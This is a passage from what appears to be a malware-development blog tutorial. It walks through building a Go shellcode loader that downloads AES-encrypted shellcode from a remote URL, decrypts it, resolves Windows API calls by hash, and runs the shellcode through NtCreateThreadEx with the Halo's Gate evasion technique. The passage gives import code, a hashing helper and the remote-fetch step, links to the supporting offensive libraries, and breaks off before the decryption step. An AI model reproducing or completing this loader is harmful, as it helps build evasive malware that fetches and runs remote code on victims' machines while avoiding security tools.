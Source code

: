 # First Example

In this first part of the post, we are going to create a shellcode loader which retrieves encrypted shellcode (AES) from a remote URL, then it's decrypted, after this API calls (which are used to inject the shellcode) are resolved using a hashing function to finally execute the shellcode. In this case we will use the classic NtCreateThreadEx with Halo's Gate evasion technique.

The algorithm used to encrypt the shellcode will be AES but I won't dig deep on this, just here is the encrypter script I used to encrypt the calc.exe shellcode: [https://github.com/D3Ext/maldev/blob/main/examples/encrypter.go](https://github.com/D3Ext/maldev/blob/main/examples/encrypter.go)

Let's start by defining the packages we will use

```go
package main

import (
	"crypto/sha1"
	"encoding/hex"
	"fmt"
	"golang.org/x/sys/windows"
	"log"
	"os"
	"syscall"
	"unsafe"

	"github.com/D3Ext/Hooka/pkg/hooka"
	mcrypto "github.com/D3Ext/maldev/crypto"
	mshellcode "github.com/D3Ext/maldev/shellcode"
)
```

If you want to use another hashing function feel free to do it, in this case we'll use the ***Sha1*** function from ***https://github.com/D3Ext/maldev*** but with a slightly.

```go
func Sha1(str string) string {
	hash := sha1.Sum([]byte(str))
	return hex.EncodeToString(hash[:])
}
```

After this we start with the main logic by retrieving the shellcode from remote url

```go
fmt.Println("[*] Retrieving encrypted shellcode...")
// remote shellcode is encrypted with AES
enc_shellcode, err := mshellcode.GetShellcodeFromUrl(os.Args[1])
if err != nil {
    log.Fatal(err)
}
```

Perfect, with that we should be able to get shellcode from remote URL but it's already encrypted so let's decrypt it.

